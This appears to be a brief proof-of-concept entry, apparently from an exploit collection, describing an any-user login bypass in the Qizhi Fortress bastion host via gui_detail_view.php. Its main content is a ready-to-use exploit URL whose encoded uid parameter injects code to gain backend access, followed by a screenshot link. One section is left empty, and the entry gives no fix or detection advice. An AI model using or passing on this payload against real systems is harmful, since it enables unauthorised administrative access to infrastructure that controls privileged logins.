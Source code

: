 # Qizhi Fortress gui_detail_view.php Any user login vulnerability

## Vulnerability Description

Qizhi Fortress has a login vulnerability for any user. You can get backend permissions by accessing a specific Url.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Qizhi Fortress</span>

## Network surveying and mapping



## Vulnerability reappears

The vulnerability POC is

```plain
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/qz-1.png)